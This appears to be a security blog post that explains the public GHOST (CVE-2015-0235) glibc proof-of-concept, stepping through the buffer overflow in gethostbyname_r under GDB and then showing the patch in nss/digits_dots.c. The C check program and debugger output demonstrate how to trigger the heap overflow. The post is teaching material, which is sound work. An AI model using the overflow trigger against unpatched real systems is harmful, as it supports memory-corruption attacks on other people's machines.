 ```yaml
---
layout: post
title: CVE-2015-0235 GHOST PoC Explained
category: [Exploitation]
tags: [Exploitation, PoC]
comments: true
---
```


In this post we will go over the GHOST PoC under a debugger. This will visually show how the buffer overflow condition is met.

{% highlight C  %}
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"

struct {
	char buffer[1024];
	char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };

int main(void) {
	struct hostent resbuf;
        struct hostent *result;
	int herrno;
	int retval;

	/*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
	size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
	char name[sizeof(temp.buffer)];
	memset(name, '0', len);
	name[len] = '\0';

	retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

	if (strcmp(temp.canary, CANARY) != 0) {
		puts("vulnerable");
		exit(EXIT_SUCCESS);
	}
	if (retval == ERANGE) {
		puts("not vulnerable");
		exit(EXIT_SUCCESS);
	}
	puts("should not happen");
	exit(EXIT_FAILURE);
}
{% endhighlight %}
Let me explain some of the above code.
First we define a CANARY, "in_the_coal_mine". This is our overwrite target.
Next we define a struct, which consists of two chunks. These chunks represent a buffer that will be overflowed by the glibc gethostbyname_r function, and the data that comes after it (the CANARY).
The first chunk is named "buffer" and its size is 1024 bytes, which is the size that will be passed to gethostbyname_r via the "buflen" argument.
Following the "buffer" chunk is the CANARY chunk. By overflowing the "buffer" chunk into the CANARY chunk, we can confirm the PoC exploit works.
Now that we have defined our struct representing the buffer for gethostname_r, the name char array is being initialized with 999 bytes of ASCII ‘0’ / HEX 0x30.

>**name**  
>*The name of the Internet host whose entry you want to find.*  
>**result**  
>*A pointer to a struct hostent where the function can store the host entry.*  
>**buffer**  
>*A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.*  
>**buflen**  
>*The length of the area pointed to by buffer.*  
>**h_errnop**  
>*A pointer to a location where the function can store an herrno value if an error occurs.*  

Now, let's see the binary under GDB debugger.

{% highlight bash  %}
$ gdb -q ./GHOST 
Reading symbols from /home/student/GHOST...done.
(gdb) break main
Breakpoint 1 at 0x80484a2: file ghost.c, line 14.
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /home/student/GHOST 

Breakpoint 1, main () at ghost.c:14
14int main(void) {
(gdb) disas
Dump of assembler code for function main:
   0x08048494 <+0>:push   ebp
   0x08048495 <+1>:mov    ebp,esp
   0x08048497 <+3>:push   edi
   0x08048498 <+4>:push   esi
   0x08048499 <+5>:and    esp,0xfffffff0
   0x0804849c <+8>:sub    esp,0x450
=> 0x080484a2 <+14>:mov    eax,gs:0x14
   0x080484a8 <+20>:mov    DWORD PTR [esp+0x44c],eax
   0x080484af <+27>:xor    eax,eax
   0x080484b1 <+29>:mov    DWORD PTR [esp+0x44],0x3e7
   0x080484b9 <+37>:mov    eax,DWORD PTR [esp+0x44]
   0x080484bd <+41>:mov    DWORD PTR [esp+0x8],eax
   0x080484c1 <+45>:mov    DWORD PTR [esp+0x4],0x30
   0x080484c9 <+53>:lea    eax,[esp+0x4c]
   0x080484cd <+57>:mov    DWORD PTR [esp],eax
   0x080484d0 <+60>:call   0x80483c0 <memset@plt>
   0x080484d5 <+65>:lea    eax,[esp+0x4c]
   0x080484d9 <+69>:add    eax,DWORD PTR [esp+0x44]
   0x080484dd <+73>:mov    BYTE PTR [eax],0x0
   0x080484e0 <+76>:lea    eax,[esp+0x4c]
   0x080484e4 <+80>:lea    edx,[esp+0x40]
   0x080484e8 <+84>:mov    DWORD PTR [esp+0x14],edx
   0x080484ec <+88>:lea    edx,[esp+0x3c]
   0x080484f0 <+92>:mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:lea    edx,[esp+0x28]
   0x08048508 <+116>:mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:mov    DWORD PTR [esp],eax
   0x0804850f <+123>:call   0x80483d0 <gethostbyname_r@plt>
   0x08048514 <+128>:mov    DWORD PTR [esp+0x48],eax
   0x08048518 <+132>:mov    edx,0x804a440
   0x0804851d <+137>:mov    eax,0x8048660
   0x08048522 <+142>:mov    ecx,0x11
   0x08048527 <+147>:mov    esi,edx
   0x08048529 <+149>:mov    edi,eax
   0x0804852b <+151>:repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
{% endhighlight %}
Lines 24-28, are where memset initializes name char array with 999 bytes of '0'. Line 31, name char array is being null terminated. Lines 36-41, is where the arguments for gethostbyname_r are being pushed to the stack, right to left. After the gethostbyname_r function, on lines 44-49 is where strcmp confirms if the CANARY has been modified or not.  
Let's set a breakpoint before the gethostbyname function and inspect the temp stuct.
{% highlight bash  %}
(gdb) break *main+123
Breakpoint 3 at 0x804850f: file ghost.c, line 25.
(gdb) c
Continuing.

Breakpoint 3, 0x0804850f in main () at ghost.c:25
25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
=> 0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
...
(gdb) print temp
$4 = {buffer = "buffer", '\000' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) 

(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 "buffer"
0x804a047 <temp+7>:	 ""
0x804a048 <temp+8>:	 ""
...
...
...
0x804a43d <temp+1021>:	 ""
0x804a43e <temp+1022>:	 ""
0x804a43f <temp+1023>:	 ""
0x804a440 <temp+1024>:	 "in_the_coal_mine"
{% endhighlight %}

As you can see, the content of temp is of two buffers named "buffer" and "canary". Content of Buffer is the name of the buffer "buffer" which is 6 bytes + 1017 bytes of '0' characters + null terminating byte = 1024 bytes. CANARY starts at memory location 0x804a440 or 1024 bytes within the temp struct, and it's content is as initialized "in_the_coal_mine".  
Now let's move 1 instruction down, past the gethostbyname_r function and inspect the temp struct again.
{% highlight bash  %}
(gdb) nexti
0x08048514	25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
Dump of assembler code for function main:
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
   0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
=> 0x08048514 <+128>:	mov    DWORD PTR [esp+0x48],eax
...
(gdb) print temp
$5 = {buffer = '\000' <repeats 16 times>, "@\240\004\b\000\000\000\000\000\000\000\000", '0' <repeats 996 times>, canary = "000\000he_coal_mine"}
(gdb) 
(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 ""
0x804a041 <temp+1>:	 ""
...
...
0x804a05c <temp+28>:	 '0' <repeats 200 times>...
0x804a124 <temp+228>:	 '0' <repeats 200 times>...
0x804a1ec <temp+428>:	 '0' <repeats 200 times>...
0x804a2b4 <temp+628>:	 '0' <repeats 200 times>...
0x804a37c <temp+828>:	 '0' <repeats 199 times>
0x804a444 <temp+1028>:	 "he_coal_mine"
{% endhighlight %}
What this shows us is that now, the temp.buffer is 1028 bytes. 4 bytes from temp.buffer chunk has overflowed into the temp.canary chunk. If we inspect the 0x804a440 address, which use to be the start of the CANARY chunk, we should see the overflowed bytes followed by terminating null char.

{% highlight bash  %}
(gdb) x/s 0x804a440
0x804a440 <temp+1024>:	 "000"
(gdb) 
{% endhighlight %}

## The patch
As noted by Qualys in their report, the vulnerable code in the function is in nss/digits_dots.c. The patch mainly consists of adding 4 bytes to the size_needed object.

{% highlight bash  %}
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
{% endhighlight %}

This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the "size_t len" from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.

### Reference
* [Qualys report](https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.220525848.141431497.1428700623)
* [Stackoverflow](http://stackoverflow.com/questions/28258135/manually-patching-for-ghost-vulnerability-on-legacy-server)

